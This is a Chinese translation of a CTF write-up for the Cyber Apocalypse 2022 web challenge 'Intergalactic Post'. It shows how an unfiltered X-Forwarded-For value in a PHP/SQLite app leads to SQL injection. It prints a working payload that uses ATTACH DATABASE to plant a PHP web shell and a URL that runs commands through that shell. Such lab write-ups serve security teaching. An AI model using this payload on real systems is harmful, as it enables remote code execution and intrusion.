









# 网络启示录 CTF 2022 —网络—星系际文章

> 原文：<https://infosecwriteups.com/cyber-apocalypse-ctf-2022-web-intergalactic-post-write-up-9f2b1acc5386?source=collection_archive---------2----------------------->

**提示:**

星际邮报
最大的星际通讯机构一直在散布关于能源危机战争的错误信息。邦妮的消息来源证实几个月前有人恶意收购了这家机构，我们怀疑是金牙军在幕后操纵。尤利西斯为我们找到了他们代理服务器的潜在接入点。你能黑进他们的新闻订阅门户让我们进去吗？

**开始:**


这是一个网络挑战，我们有应用程序的源代码，所以我们正在下载它，并在从真正的网站上获得标志之前，在我们的本地测试它。

首先，我们正在检查网站及其功能，



它需要一封电子邮件来订阅..


当我们输入电子邮件格式时，它会接受。



但是当我们给出另一种格式如 test '时，它不接受。

让我们检查源代码，它对我们的输入做了什么，以及如何过滤它。



当我检查它时，它使用 filter_var 函数来检查它是否是电子邮件格式。

[](https://www.w3schools.com/php/func_filter_var.asp) [## 函数的作用

### W3Schools 提供所有主要网络语言的免费在线教程、参考资料和练习。覆盖…

www.w3schools.com](https://www.w3schools.com/php/func_filter_var.asp) 

我还研究了这个函数是否有 sql 注入，因为正如您在下图中看到的，它将我们的电子邮件写入数据库。



我找到了下面的链接。

[](https://github.com/Xib3rR4dAr/filter-var-sqli) [## GitHub-xib 3 r 4 Dar/FILTER-var-sqli:绕过 FILTER _ SANITIZE _ EMAIL & FILTER _ VALIDATE _ EMAIL…

### 故事:在测试一个网站的时候，我碰到了它的管理面板，并且无法登录。常见的 SQLi 登录绕过…

github.com](https://github.com/Xib3rR4dAr/filter-var-sqli) 

但是此链接可以帮助 sqli 绕过电子邮件格式的登录。所以为了确保万无一失，我编辑了代码，因为没有 filter_var 函数，我用 sqlmap 进行攻击。



是的，我可以得到桌子等等。

但另一件事，我发现，它也获得我们的 ip 地址，并将其写入数据库，它没有任何过滤功能。



因此，我们可以添加报头来发送我们的 ip 地址。



你可以检查以下网站的有效载荷。

[http://atta.cked.me/home/sqlite3injectioncheatsheet](http://atta.cked.me/home/sqlite3injectioncheatsheet)

我们使用这个标题

```
X-Forwarded-For: blahblah','blahblah');ATTACH DATABASE '/www/lol.php' as lol;CREATE TABLE lol.pwn(dataz text); INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```


它接受它，因为它是有效的电子邮件，但它不检查 ip 地址的格式是否正确。

然后我们在/lol.php 有一个 web shell，可以做

```
[http://206.189.126.144:31604/lol.php?cmd=cat%20/flag*](http://206.189.126.144:31604/lol.php?cmd=cat%20/flag*)
```

